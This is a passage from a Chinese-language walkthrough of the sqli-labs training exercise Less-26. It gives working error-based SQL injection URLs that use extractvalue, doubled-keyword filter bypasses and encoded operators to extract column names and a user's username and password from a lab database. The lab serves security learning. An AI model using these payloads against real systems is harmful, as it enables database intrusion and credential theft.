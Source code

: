 ### 获取列名

`http://192.168.75.132/sql/Less-26/?id=1'%26%26extractvalue(null,concat(0x7e,(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name='users')),0x7e))%7c%7c'1`

![005](/img/sql/Lesson-26/005.png)

### 获取字段值

原谅我数据库学的不好,暂时只想到了按id找。

`http://192.168.75.132/sql/Less-26/?id=1'%26%26extractvalue(null,concat(0x7e,(select(concat(username,'~',passwoorrd))from(security.users)where(id=1)),0x7e))%7c%7c'1`

![006](/img/sql/Lesson-26/006.png)
